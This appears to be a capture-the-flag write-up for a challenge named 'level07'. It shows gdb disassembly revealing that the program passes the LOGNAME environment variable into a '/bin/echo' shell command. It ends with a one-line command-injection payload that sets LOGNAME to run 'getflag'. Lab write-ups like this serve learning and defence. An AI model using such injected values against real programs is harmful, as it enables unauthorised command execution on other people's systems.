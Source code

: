 ## level07

There is a level07 executable that displays "level07".

I used gdb to disassemble the program:

```gdb ./level07
disass main
```

```
[...]
0x0804856f <+91>:    movl   $0x8048680,(%esp)               // x/s 0x8048680: LOGNAME
0x08048576 <+98>:    call   0x8048400 <getenv@plt>
0x0804857b <+103>:   mov    %eax,0x8(%esp)
0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)            // x/s 0x8048688: "/bin/echo %s "
0x08048587 <+115>:   lea    0x14(%esp),%eax
0x0804858b <+119>:   mov    %eax,(%esp)
0x0804858e <+122>:   call   0x8048440 <asprintf@plt>
[...]
```

It is clear that the program makes a call to getenv to get the value of the environment variable LOGNAME, and then display it with /bin/echo.

Not surprisingly, the environment variable LOGNAM is currently equal to 'level07'. All I need to do is change the LOGNAME environment variable so that the program displays what I want.

`export 'LOGNAME=$(getflag)' ; ./level07` and it's done.